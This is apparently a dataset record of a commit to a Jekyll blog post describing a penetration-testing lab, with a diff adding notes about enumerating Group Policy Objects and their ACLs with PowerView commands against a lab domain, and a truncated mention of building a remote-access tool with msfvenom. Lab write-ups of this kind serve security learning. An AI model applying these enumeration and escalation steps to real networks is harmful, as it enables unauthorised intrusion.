

Before and after one commit to braaaax/braaaax.github.io, a Jekyll site: the page built from _posts/2018-3-26-lky-labs.md, in a window 1280 px wide and 900 px high, scrolled down 15212 px. Shown: the whole window, without its empty margins (248-1034 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
updated site

````diff
--- a/_posts/2018-3-26-lky-labs.md
+++ b/_posts/2018-3-26-lky-labs.md
@@ -214,7 +214,12 @@ Success as system on sql01 let's create a rat with msfvenom (`msfvenom -p window
 
 
 
+
+
 GPO Enumeration:
+
+We enumerate the GPO looking for misconfigurations. We find that
+
 ```powershell
 PS > Get-NetGPO
 
@@ -245,25 +250,12 @@ objectcategory           : CN=Group-Policy-Container,CN=Schema,CN=Configuration,
 ...
 ```
 
+We find that Server Admins have WriteProperty
+
 ```powershell
 PS > Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
 
 ...
-
-InheritedObjectType   : All
-ObjectDN              : CN={2259E5B0-3B49-4704-98BB-5A9581B54E8E},CN=Policies,CN=System,DC=lab,DC=local
-ObjectType            : All
-IdentityReference     : NT AUTHORITY\SYSTEM
-IsInherited           : False
-ActiveDirectoryRights : CreateChild, DeleteChild, Self, WriteProperty, DeleteTree, Delete, GenericRead, WriteDacl,
-                        WriteOwner
-PropagationFlags      : None
-ObjectFlags           : None
-InheritanceFlags      : ContainerInherit
-InheritanceType       : All
-AccessControlType     : Allow
-ObjectSID             :
-
 
 InheritedObjectType   : All
 ObjectDN              : CN={2259E5B0-3B49-4704-98BB-5A9581B54E8E},CN=Policies,CN=System,DC=lab,DC=local
````
Also changed, not shown: other parts of _posts/2018-3-26-lky-labs.md (+1 -1 lines).
